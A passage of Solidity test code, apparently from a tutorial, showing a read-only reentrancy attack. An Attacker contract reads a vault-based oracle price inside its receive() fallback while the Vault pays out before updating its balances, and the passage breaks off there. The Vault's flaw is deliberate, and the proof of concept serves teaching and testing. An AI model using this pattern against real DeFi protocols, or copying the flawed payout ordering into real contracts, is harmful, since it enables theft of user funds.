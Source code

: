 ```
    }

    function testAttack() public {
        vm.prank(alice);
        vault.deposit{value: 5 ether}();

        attacker.attack();
    }
}

contract Attacker {
    Vault private vault;
    Oracle private oracle;

    constructor(address _vaultAddress, address _oracleAddress) {
        vault = Vault(_vaultAddress);
        oracle = Oracle(_oracleAddress);
    }

    function attack() public {
        console.log("Price before deposit", oracle.getPrice());
        // Deposit to pump the price
        vault.deposit{value: 5 ether}();
        // Withdraw in order to trigger receive fallback
        vault.withdraw();
        console.log("Price after deposit", oracle.getPrice());
    }

    receive() external payable {
        // Perform malicious actions with pumped price
        console.log("Price during deposit", oracle.getPrice());
    }
}

contract Oracle {
    Vault private vault;

    constructor(address _vault) {
        vault = Vault(_vault);
    }

    function getPrice() public view returns (uint256) {
        return (vault.totalLocked() / 1e18) / 2;
    }
}

contract Vault is ReentrancyGuard {
    mapping(address => uint256) public userLocked;
    uint256 public totalLocked;

    function deposit() external payable {
        userLocked[msg.sender] += msg.value;
        totalLocked += msg.value;
    }

    function withdraw() external nonReentrant {
        require(userLocked[msg.sender] > 0);
        require(address(this).balance >= userLocked[msg.sender]);

        (bool success, ) = payable(msg.sender).call{
            value: userLocked[msg.sender]
        }("");

```